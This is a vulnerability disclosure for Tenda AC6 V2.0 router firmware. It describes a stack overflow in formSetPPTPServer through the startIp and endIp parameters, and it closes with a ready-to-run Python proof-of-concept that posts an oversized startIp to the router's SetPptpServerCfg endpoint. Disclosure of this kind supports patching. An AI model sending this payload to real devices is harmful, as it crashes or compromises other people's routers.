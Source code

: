 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "formSetPPTPServer"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/2855)

In the function `formSetPPTPServer`, user-supplied input for the parameters **`startIp`** and **`endIp`** is assigned to variables on the stack using `sscanf` **without proper parameter validation**, leading to a **stack overflow**.

```c
sscanf(
             pptp_server_end_ip,
             "%[^.].%[^.].%[^.].%s",
             pptp_server_end_each_ip,
             pptp_server_end_each_ip[1],
             pptp_server_end_each_ip[2],
             pptp_server_end_each_ip[3]) != 4 )
```

![image-20250614185807558](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614185807558.png)

poc

```python
import requests
def send_payload(url, startIp, endIp):
    params={'serverEn':1,
            'startIp':startIp,
            'endIp':endIp}
    cookie={'password':'vkntgb'}
    response = requests.post(url, cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

startIp=b'a'*0x2048+b".0.0.0"
endIp=b'a'
url="http://192.168.1.1/goform/SetPptpServerCfg"
send_payload(url, startIp,endIp)   
```

![image-20250614203518515](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614203518515.png)